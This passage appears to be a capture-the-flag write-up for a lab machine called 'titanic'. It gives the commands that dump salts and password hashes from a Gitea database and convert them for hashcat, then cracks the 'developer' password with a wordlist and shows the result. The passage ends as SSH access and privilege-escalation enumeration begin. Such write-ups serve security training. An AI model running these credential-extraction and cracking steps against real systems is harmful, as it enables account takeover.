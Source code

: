 Hashcat doesn't natively support the format the Gitea uses. We can use the following `gitea2hashcat.py` Python script to convert them into a hashcat-compatible format:

[Cracking Gitea's PBKDF2 Password Hashes](https://www.unix-ninja.com/p/cracking_giteas_pbkdf2_password_hashes)

```bash
sqlite3 gitea.db 'select salt,passwd from user;' | python3 gitea2hashcat.py
```
```
[+] Run the output hashes through hashcat mode 10900 (PBKDF2-HMAC-SHA256)

sha256:50000:LRSeX70bIM8x2z48aij8mw==:y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=
sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
```

### Hash Cracking

We crack the PBKDF2 hash for the `developer` user using `hashcat` and retrieve its plaintext password:

```bash
hashcat -m 10900 hashes.txt /usr/share/wordlists/rockyou.txt
```
```
<SNIP>
sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:25282528
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 10900 (PBKDF2-HMAC-SHA256)
Hash.Target......: sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqc...lM+1Y=
Time.Started.....: Sun Jun 22 09:20:16 2025 (4 secs)
Time.Estimated...: Sun Jun 22 09:20:20 2025 (0 secs)
```

## Foothold

Logging in as the `developer` user with the retreived password via **SSH**:

![image.png](image%2012.png)

## Privilege Escalation

Checking the `/opt` directory on the target host, we find a Bash script named `identify_images.sh` inside the `scripts` directory:

```bash
developer@titanic:/opt/scripts$ pwd
/opt/scripts
developer@titanic:/opt/scripts$ ls -la
total 12
drwxr-xr-x 2 root root 4096 Feb  7 10:37 .
drwxr-xr-x 5 root root 4096 Feb  7 10:37 ..
-rwxr-xr-x 1 root root  167 Feb  3 17:11 identify_images.sh
developer@titanic:/opt/scripts$
```
